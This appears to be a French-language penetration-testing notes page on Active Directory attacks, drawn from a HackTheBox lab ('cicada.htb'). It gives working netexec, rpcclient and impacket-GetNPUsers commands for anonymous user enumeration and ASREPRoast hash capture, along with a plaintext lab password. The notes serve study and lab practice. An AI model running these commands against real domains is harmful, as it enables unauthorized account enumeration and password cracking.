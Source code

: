```yaml
---
title: Active Directory
description: Ce document regroupe des commandes et techniques pour l’énumération, l’exploitation et l’escalade de privilèges dans un environnement Active Directory (AD). Chaque section inclut des explications et des exemples tirés de machines que j'explore
layout: post
toc: true
---
```



#### Énumération initiale avec compte Guest ou anonyme

- **Objectif** : Tester l’accès anonyme ou avec le compte Guest pour identifier les informations accessibles sans authentification ou avec des privilèges minimaux.
    
- **Contexte** : Certaines configurations AD permettent un accès anonyme (par exemple, via SMB ou RPC) ou un compte `Guest` activé.
    
- **Outils** : `netexec`, `rpcclient`.
    
```bash
# Tester l’accès anonyme via SMB avec un utilisateur vide
netexec smb <IP> -u 'a' -p '' --rid-brute
# Exemple de résultat : Identifie si le compte Guest est accessible
# SMB 10.10.11.35 445 CICADA-DC [+] cicada.htb\a: (Guest)

# Énumérer les utilisateurs via RPC sans authentification
rpcclient <IP> -U '%' -c 'querydispinfo'
# Résultat : Liste les comptes du domaine si l’accès anonyme est permis

# Énumérer avec des identifiants valides (exemple : michael.wrightson)
rpcclient <IP> -U 'michael.wrightson%Cicada$M6Corpb*@Lp#nZp!8' -c 'querydispinfo'
# Résultat : Fournit des informations détaillées sur les utilisateurs du domaine
```

Notes :

- `--rid-brute` avec `netexec` tente de deviner les `SIDs` pour énumérer les utilisateurs.
    
- L’accès anonyme via RPC (`-U '%'`) peut être bloqué sur des systèmes modernes à moins que la configuration ne soit laxiste.
    
- Si des identifiants sont obtenus, utilisez-les pour approfondir l’énumération.
    

### Énumération des comptes sans mot de passe (ASREPRoast)

- **Objectif** : Identifier les comptes avec l’option `Do not require Kerberos preauthentication `pour récupérer des `TGTs` exploitables.
    
- **Outil** : `impacket-GetNPUsers`.
    
- **Contexte** : Utile pour trouver des comptes vulnérables à l’attaque `ASREPRoast`.
    

```bash
# Tester une liste d’utilisateurs sans mot de passe
impacket-GetNPUsers <DOMAIN>/ -usersfile <USER_LIST> -no-pass -dc-ip <IP>
# Exemple :
impacket-GetNPUsers cicada.htb/ -usersfile cicada.users -no-pass -dc-ip 10.10.11.35
# Résultat : Retourne les TGTs des comptes vulnérables, qui peuvent être cassés avec Hashcat
```

